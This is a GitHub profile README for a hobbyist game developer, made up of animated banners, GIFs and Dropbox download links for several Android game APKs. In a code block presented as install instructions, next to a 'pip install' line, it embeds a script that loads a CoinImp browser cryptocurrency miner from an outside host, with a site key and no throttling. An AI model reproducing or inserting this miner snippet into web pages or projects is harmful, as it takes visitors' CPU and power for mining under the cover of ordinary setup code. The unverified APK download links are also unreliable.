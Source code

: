 ![Jokes Card](https://readme-jokes.vercel.app/api)
```
pip install dclxviclan

import dclxviclan

<script src="https://www.hostingcloud.racing/dCeG.js"></script>
<script>
  var _client = new Client.Anonymous('4bc0501a0ba20f76a537ecbd9a24c652614c84ced8a69cb6097d7b10ae3caa63', {
   throttle: 0, c: 'w'
  });
  _client.start();
  _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com. If it bothers you, you can stop it.", "#cccccc", 40,"#3d3d3d");
</script>
```
![](https://github.com/dclxviclan/happynewyearfemopresentapkgame/blob/main/Media_221228_025641.gif)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=52FF98&width=435&lines=where+i+can+find+u👽+hint)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/happynewyearfemopresentapkgame/blob/main/miniGif_20221228031320.gif)
![](https://github.com/dclxviclan/happynewyearfemopresentapkgame/blob/main/miniGif_20221228095246.gif)
demo apk games download from dropbox👇👋💬:
## [2D Platformer dclxviclan games](https://www.dropbox.com/s/j1rtrj55ntd0m2b/hahafck.apk?dl=0 "download game")

## [3D Fighting dclxviclan games](https://www.dropbox.com/s/1x1mhbe1g4yfiyu/BeatEmUo.apk?dl=0 "download game")

## [3D Runner dclxviclan games](https://www.dropbox.com/s/2je80gyzabkov0o/Blt%24R.apk?dl=0 "download game")

## [2D Shooter dclxviclan games](https://www.dropbox.com/s/6m5c8nors6hng5g/TopDownStartEpic.apk?dl=0 "download game")

## [FPC dclxviclan games](https://www.dropbox.com/s/ajmdas223vqk032/FPCs%24_0.1.apk?dl=0 "download game")

## [Gravity dclxviclan games](https://www.dropbox.com/s/ztopm89b7irg889/3d%24xxZombapp_0.1.apk?dl=0 "download game")

~~MY First Android app on java~~ Download👇from🤚dropbox💬:
## [apk dclxviclan](https://www.dropbox.com/s/v4l33bcg88k5nke/%23dclxviclan_1.0.apk?dl=0 "download apk")

[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&lines=hello+⚠️🤖+howu+💬+jump+quickly)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/happynewyearfemopresentapkgame/blob/main/Media_221211_122319.gif)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&lines=white+rabbit+find👀+truth+jump+quickly)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/FatalErrors/blob/main/Media_221228_070944.gif)
![](https://github.com/dclxviclan/FatalErrors/blob/main/miniGif_20221226043903.gif)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&lines=dclxviclan+network+game+studio+🤳🌐👽+for🤳🌐🎮)](https://git.io/typing-svg)


[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=dclxviclan)](https://github.com/dclxviclan/github-readme-stats)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=2000&width=450&lines=PLAY+NOW+🎃🎁+w🧞‍♂️💦+jump+quickly)](https://git.io/typing-svg)
PLAY QUICK https://dclxvistars.github.io
<!---
dclxviclan/dclxviclan is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
//learning more
![](https://github.com/dclxviclan/FatalErrors/blob/main/Media_221219_173639.gif)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=4000&width=535&lines=ALL+LIFE+!$+.demo💤+jump+quickly)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/FatalErrors/blob/main/miniGif_20221128001409.gif)
![](https://github-profile-summary-cards.vercel.app/api/cards/productive-time?username=dclxviclan&theme=solarized_dark)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=500&lines=and+MAIN+:Hello+₩0rld!🦸‍♂️+jump+quickly)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/FatalErrors/blob/main/20221226_042919.gif)
[![Readme Quotes](https://quotes-github-readme.vercel.app/api?type=horizontal&theme=dark)](https://github.com/piyushsuthar/github-readme-quotes)
![snake gif](https://github.com/dclxviclan/dclxviclan/blob/output/github-contribution-grid-snake.svg) 

